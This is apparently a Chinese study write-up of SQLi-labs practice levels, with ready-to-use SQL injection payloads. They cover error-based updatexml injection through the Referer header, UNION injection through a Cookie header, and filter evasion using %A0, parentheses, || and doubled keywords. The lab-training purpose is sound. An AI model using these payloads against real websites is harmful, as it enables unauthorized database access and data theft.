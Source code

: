 #### 考点：http头部POST注入

#### 思路：

单引号，报错型，referer型注入点

**payload**

```
Referer:'or updatexml(1,concat('~',(select database()),'~'),1) or '
```



### less-20

#### 考点：基于错误的cookie头部POST注入

#### 思路：

单引号，报错型，cookie型注入

```
Cookie: uname=admin' order by 3--+ //1-3 正常
Cookie: uname=admin' order by 4--+ //4 不正常 ，确定行数为3
```

**payload**

```
Cookie: uname=0' union select 1,2,database()--+	//爆库
```



### less-26

#### 考点：过滤空格/注释，报错注入

#### 思路

判断注入的类型：字符型单引号闭合

```
?id=1'		//单引号报错，双引号不报错，判断为单引号闭合。单引号时加入--+报错中未出现注释，因此--+，注释被过滤
```

有报错回显，并且过滤了大量的字符，因此选择报错注入

- 空格：%A0、括号

爆库

```
?id=0'||updatexml(1,concat('~',(database())),0)||'1'='1
```

爆表

```
?id=0'||updatexml(1,concat('~',(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='security'))),0)||'1'='1
```
